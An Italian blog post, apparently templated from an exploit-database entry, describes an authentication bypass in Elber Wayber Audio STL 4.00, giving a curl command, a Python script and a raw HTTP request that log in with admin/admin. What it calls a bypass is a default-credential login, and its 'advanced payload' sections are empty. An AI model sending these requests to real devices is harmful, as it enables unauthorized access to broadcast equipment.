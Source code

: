 ```yaml
---
layout: post
title: '[webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Authentication Bypass' 
date: 2024-08-24
categories: [security, ransomware]
---
```


```markdown
# [webapps] Elber Wayber Analog/Digital Audio STL 4.00 - Authentication Bypass

## Introduzione

In questo articolo ci concentriamo sulla vulnerabilità di sicurezza identificata in Elber Wayber Analog/Digital Audio STL 4.00, che permette di bypassare l'autenticazione. Questa vulnerabilità potrebbe consentire ad un attaccante di accedere a funzioni riservate dell'applicazione, compromettendo così la sicurezza dei dati e l'intero sistema.

## Dettagli della vulnerabilità

La vulnerabilità riguarda l'accesso senza autenticazione alle funzioni riservate dell'applicazione. Le versioni interessate del software sono la 4.00 e precedenti. La vulnerabilità si manifesta quando un attaccante riesce a bypassare l'autenticazione a causa di controlli insufficenti sull'autenticazione.

## Esempio di Payload Semplice

Il comando originale usato per sfruttare la vulnerabilità è:

```bash
curl -i -s -k -X 'POST' -H 'User-Agent: Mozilla/5.0' -H 'Content-Type: application/x-www-form-urlencoded' --data-binary $'username=admin&password=admin' 'http://<IP>/'
```

Questo comando invia una richiesta POST a un indirizzo IP specifico con il nome utente e la password impostati su 'admin'.

## Conversione in Python del Payload Semplice

L'equivalente script Python del comando originale è:

```python
import requests

url = 'http://<IP>/'
data = {'username': 'admin', 'password': 'admin'}
headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': 'application/x-www-form-urlencoded'}

response = requests.post(url, headers=headers, data=data)
print(response.text)
```

## Esempio di Payload Avanzato

N/A

## Conversione in Python del Payload Avanzato

N/A

## Spiegazione tecnica

Il comando originale e lo script Python inviano una richiesta HTTP POST al server con il nome utente e la password impostati su 'admin'. Questa richiesta tenta di autenticarsi al server come amministratore. Se l'autenticazione non viene controllata correttamente, l'attaccante può accedere come amministratore.

## Procedura per riprodurre la vulnerabilità

Per riprodurre la vulnerabilità, l'attaccante deve inviare una richiesta HTTP POST al server con il nome utente e la password impostati su 'admin'. 

## Richiesta HTTP

La richiesta HTTP viene inviata nel seguente formato:

```bash
POST / HTTP/1.1
Host: <IP>
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

## Impatto della vulnerabilità

Se sfruttata con successo, questa vulnerabilità può permettere ad un attaccante di accedere a funzioni riservate dell'applicazione. Questo potrebbe portare alla violazione dei dati sensibili, compromettendo la sicurezza dell'applicazione e dei dati dell'utente.

## Patch e Mitigazioni

Non sono disponibili patch o mitigazioni rilasciate al momento della scrittura di questo articolo.

## Conclusione

È fondamentale garantire che i controlli di autenticazione siano robusti e testati approfonditamente per prevenire attacchi di questo tipo. Raccomandiamo di aggiornare il software alla versione più recente possibile e di eseguire regolarmente audit di sicurezza sulle applicazioni web.
```

